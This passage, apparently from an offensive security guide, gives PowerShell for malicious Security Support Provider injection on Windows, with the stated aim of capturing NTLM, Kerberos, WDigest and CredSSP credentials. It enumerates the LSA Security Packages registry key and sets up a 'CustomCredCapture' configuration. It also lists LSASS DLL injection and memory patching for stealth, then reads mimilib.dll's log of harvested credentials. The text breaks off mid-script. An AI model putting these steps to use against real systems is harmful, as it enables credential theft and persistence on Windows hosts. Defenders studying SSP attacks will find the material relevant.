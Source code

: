 #### **Method 3: Advanced SSP Injection with Custom Payloads**
```powershell
# Objective: Create and inject custom SSP payloads for specific credential types
# Impact: Targeted credential capture based on specific requirements

Write-Host "=== ADVANCED CUSTOM SSP INJECTION ===" -ForegroundColor Red

# Step 1: Check current SSP configuration
Write-Host "Current Security Support Providers:" -ForegroundColor Cyan
$currentSSPs = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "Security Packages" -ErrorAction SilentlyContinue
if($currentSSPs) {
    $sspList = $currentSSPs."Security Packages"
    foreach($ssp in $sspList) {
        Write-Host "  - $ssp" -ForegroundColor White
    }
}

# Step 2: Create custom SSP configuration
$customSSPConfig = @{
    Name = "CustomCredCapture"
    Description = "Custom credential capture SSP"
    LogPath = "C:\Windows\System32\customssp.log"
    CaptureTypes = @("NTLM", "Kerberos", "WDigest", "CredSSP")
}

Write-Host "Custom SSP Configuration:" -ForegroundColor Cyan
$customSSPConfig.GetEnumerator() | ForEach-Object {
    Write-Host "  $($_.Key): $($_.Value)" -ForegroundColor White
}

# Step 3: Advanced injection techniques (conceptual)
Write-Host "`nAdvanced SSP injection techniques:" -ForegroundColor Yellow
Write-Host "1. DLL injection into LSASS process" -ForegroundColor White
Write-Host "2. API hooking for credential capture" -ForegroundColor White
Write-Host "3. Custom SSP DLL development" -ForegroundColor White
Write-Host "4. Memory patching for stealth" -ForegroundColor White

Write-Host "Note: Advanced techniques require custom development and testing" -ForegroundColor Yellow
```

### **Custom SSP Monitoring and Log Analysis**

#### **1. SSP Log File Monitoring**
```powershell
# Monitor Custom SSP log files for captured credentials
Write-Host "=== CUSTOM SSP LOG MONITORING ===" -ForegroundColor Yellow

# Check for mimilib.dll logs
$mimilibLogPath = "C:\Windows\System32\mimilsa.log"
if(Test-Path $mimilibLogPath) {
    Write-Host "Found mimilib.dll log file" -ForegroundColor Green
    
    # Read recent log entries
    $logContent = Get-Content -Path $mimilibLogPath -Tail 20 -ErrorAction SilentlyContinue
    if($logContent) {
        Write-Host "Recent mimilib.dll log entries:" -ForegroundColor Cyan
        $logContent | ForEach-Object {
            Write-Host "  $_" -ForegroundColor White
        }
    }
} else {
```